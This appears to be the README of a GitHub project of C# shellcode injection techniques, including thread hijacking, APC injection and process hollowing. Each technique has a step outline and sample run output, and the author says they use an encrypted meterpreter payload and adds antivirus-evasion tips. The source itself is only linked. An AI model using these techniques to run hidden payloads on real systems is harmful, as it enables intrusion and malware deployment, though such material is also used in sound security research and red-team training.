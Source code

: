 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

## Shellcode Runner
[ShellcodeRunner.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure I shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the pahe where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls SleepEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx, WaitForMultipleObjectsEx, or WaitForSingleObjectEx) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Notes
Remember you will need to start a process to inject to, except when using the shellcode runner or the process hollowing (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
